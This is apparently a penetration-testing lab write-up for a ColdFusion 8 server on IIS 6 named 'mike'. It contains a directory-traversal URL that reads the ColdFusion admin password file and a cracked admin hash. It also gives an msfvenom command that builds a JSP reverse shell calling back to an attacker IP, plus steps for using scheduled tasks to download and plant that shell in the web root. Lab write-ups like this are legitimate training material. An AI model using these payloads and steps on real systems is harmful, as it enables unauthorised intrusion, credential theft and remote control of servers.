 * Hostname: mike
* Server: Microsoft-IIS/6.0
* Web Framework: Adobe ColdFusion
* Programming Language: CFML
* OS: Windows

**Wappalyzer**
![[mike-wappalyzer.png]]

**Home page**
![[home.png]]

**Candidate exploit**
```
https://www.exploit-db.com/exploits/14641
```

**Obtaining password hash through LFI**
```
http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

**Hash**
``aafdc23870ecbcd3d557b6423a8982134e17927e : pass123``

**Generate JSP reverse shell**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.138 LPORT=9001 -f raw -o shell.jsp
```

### Writing Shell to File ([ColdFusion](https://nets.ec/Coldfusion_hacking#Writing_Shell_to_File)) 

-   Go to the Settings Summary tab on the left and find the 'Mappings' section.
-   One of the default mappings is /CFIDE. This is where you will be writing to.
-   Copy the path next to it. ``C:\Inetpub\wwwroot\CFIDE``
-   Enter the Debugging and Logging tab on the left panel and click 'Scheduled Tasks'
-   Click 'Schedule New Task'.
-   Set the task name to whatever you like
-   Change the URL to the URL of JSP shell ([http://KALI_IP/shell.jsp](http://KALI_IP/shell.jsp))
-   Check the option to save the output to a file. 
-   Paste the path you acquired from the Mappings into the 'File' field,
-   Type the name you want to save the shell as and the extension (jsp).
	- ``C:\Inetpub\wwwroot\CFIDE\shell.jsp``
-   Press **OK** and click the green check to run the task.
-   You should now be able to access the shell from http://10.11.1.10/CFIDE/shell.jsp

**Mapping directory**
``C:\Inetpub\wwwroot\CFIDE``


![[10.11.1.10 - mike (done)/screenshots/proof.png]]